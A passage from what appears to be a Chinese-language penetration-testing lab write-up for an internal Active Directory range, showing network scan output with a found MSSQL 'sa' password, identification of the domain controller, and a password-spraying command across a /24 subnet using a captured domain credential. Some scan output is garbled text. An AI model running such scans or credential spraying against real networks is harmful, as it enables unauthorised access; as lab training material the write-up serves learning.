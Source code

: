 ```
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT          
[*] NetBios: 172.22.8.15     [+]DC XIAORANG\DC01            
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393 
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
宸插畬鎴?16/16
[*] 鎵弿缁撴潫,鑰楁椂: 10.2880774s

```

域控服务器为172.22.8.15，刚才的john用户是172.22.8.31连过来的

既然拿到了密码，那就对这个C段段机器进行密钥喷洒

```
sme smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Z!#
```

![QQ_1722147865647](images/12.png)

可以登陆172.22.8.46，登录的时候（选择对应的域）提醒修改密码

![QQ_1722148332164](images/13.png)
